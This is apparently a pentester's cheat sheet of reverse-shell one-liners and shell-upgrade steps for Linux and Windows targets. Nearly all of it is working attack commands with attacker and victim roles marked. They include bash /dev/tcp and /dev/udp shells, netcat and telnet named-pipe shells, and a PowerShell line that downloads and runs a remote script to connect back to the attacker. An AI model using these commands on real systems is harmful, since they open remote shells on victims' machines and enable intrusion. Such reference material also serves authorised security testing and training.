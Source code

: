 # Linux fully interactive tty
1. use python 2 or python3 `pty` module's `spawn` function
	1. `python -c 'import pty; pty.spawn("/bin/bash")'`
	2. `python3 -c 'import pty; pty.spawn("/bin/bash")'`
2. use `CTRL + Z` to background the shell
3. use `stty size` to view the terminal dimensions *to be used in step #7*
4. use `stty raw -echo` then `fg`
5. type `reset` even if you don't see visual feedback
6. when the reverse shell is back, set your `SHELL` and `TERM` environement variables:
`export SHELL=/bin/bash && export TERM=xterm-256color`
7. set terminal size using `stty rows <number> columns <number>`:
`size=$(stty size); rows=$(echo $size | cut -d' ' -f1); cols=$(echo $size | cut -d' ' -f2); echo "stty rows $rows columns $cols"`

# Windows better tty using `rlwrap`
1. install rlwrap using `apt install rlwrap`
2. using rlwrap before your standard listener `rlwrap nc -lvnp <LPORT>`

# Windows fully interactive (Windows 10 / Windows Server 2019 version 1809)
## on attacker machine:
`stty raw -echo; (stty size; cat) | nc -lvnp <LPORT>`
## on victim machine:
`IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell <LHOST> <LPORT>`

# Bash
1. `bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1`
2. `exec 5<>/dev/tcp/<LHOST>/<LPORT>; cat <&5 | while read line; do $line 2>&5 >&5; done`

## Bash/Netcat:
`nc -nv <LHOST> <LPORT> -e /bin/bash`

## mkfifo:
`rm /tmp/pipe; mkfifo /tmp/pipe; /bin/sh -i < /tmp/pipe 2>&1 | nc <LHOST> <LPORT> > /tmp/pipe; rm /tmp/pipe`

## mknod:
`rm /tmp/pipe; mknod /tmp/pipe p 2>/dev/null && nc <LHOST> <LPORT> 0</tmp/pipe | /bin/bash 1>/tmp/pipe; rm /tmp/pipe`

## Bash UDP
1. victim: `sh -i >& /dev/udp/<LHOST>/<LPORT> 0>&1`
2. attacker: `nc -u -lvp <LPORT>`

# Telnet
`rm /tmp/pipe; mknod /tmp/pipe p && telnet <LHOST> <LPORT> 0</tmp/pipe | /bin/bash 1>/tmp/pipe; rm /tmp/pipe`